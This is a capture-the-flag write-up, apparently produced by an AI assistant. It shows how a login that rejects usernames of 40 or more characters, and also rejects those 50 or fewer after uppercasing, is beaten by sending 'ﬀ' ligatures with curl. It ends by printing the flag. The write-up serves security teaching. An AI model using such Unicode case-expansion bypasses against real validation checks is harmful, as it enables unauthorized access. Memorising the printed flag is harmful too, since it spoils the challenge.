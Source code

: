 Here’s your unique Markdown write-up based on your approach. Let me know if you need any refinements! 🚀  

---

# Conditions - CTF Write-up  

## 🏆 Challenge Overview  

**Category:** Misc (100 points)  
**Author:** theinit01  
**Description:**  
We are presented with a seemingly **impossible-to-pass** login system that enforces conflicting conditions:  

1. If the username length is **40 or more**, it is "too long."  
2. If the **uppercase version** of the username is **50 or fewer**, it is "too short."  

The goal is to **bypass these conditions** and retrieve the flag.  

🔗 **Challenge Link:** [Conditions CTF](https://conditions.ctf.dscjssstuniv.in)  

---

## 🕵️‍♂️ Approach  

### 🔍 Step 1: Understanding the Conditions  

The first step was analyzing how the server checks username length. From testing different inputs via `curl`, I identified the key issue:  

```python
if len(username) >= 40:
    return "Username is too long!"
elif len(username.upper()) <= 50:
    return "Username is too short!"
else:
    return flag
```

To **pass the check**, we needed a username that:  

✔ **Has fewer than 40 characters initially**  
✔ **Expands beyond 50 characters after `.upper()` is applied**  

---

### 🔑 Step 2: Finding a Suitable Payload  

The trick was using a **Unicode character** that changes length when capitalized. I tested several inputs:  

```bash
curl -X POST 'https://conditions.ctf.dscjssstuniv.in/login' -d 'username=ßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßßß'
```
💥 **Result:** "Username is too long!"  

```bash
curl -X POST 'https://conditions.ctf.dscjssstuniv.in/login' -d 'username=iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiii'
```
💥 **Result:** "Username is too long!"  

```bash
curl -X POST 'https://conditions.ctf.dscjssstuniv.in/login' -d 'username=A⠀A⠀A⠀A⠀A⠀A⠀A⠀A⠀A⠀A⠀A⠀A⠀A⠀A⠀A⠀A⠀'
```
💥 **Result:** "Username is too short!"  

After several trials, I found that using `ﬀ` (Ligature `ff`) **expands in uppercase**, allowing the condition to be bypassed.  

```bash
curl -X POST 'https://conditions.ctf.dscjssstuniv.in/login' -d 'username=ﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀﬀ'
```

🎉 **Success! The flag was returned!**  

---

## 🏆 Final Flag  

```
dscctf{1mp0551bl3_c0nd1710n5_0r_p0551bl3_c0nd1710n5}
```

---

## 🔥 Key Takeaways  

- **Unicode quirks** can be leveraged to **bypass length-based restrictions**.  
- **Ligatures (e.g., `ﬀ`) behave differently when uppercased**, making them useful in certain exploits.  
- Always inspect **string transformations** (`upper()`, `lower()`, etc.) when analyzing input validation mechanisms.  

🔍 **Lesson:** Never assume length checks are secure—Unicode can be unpredictable! 🚀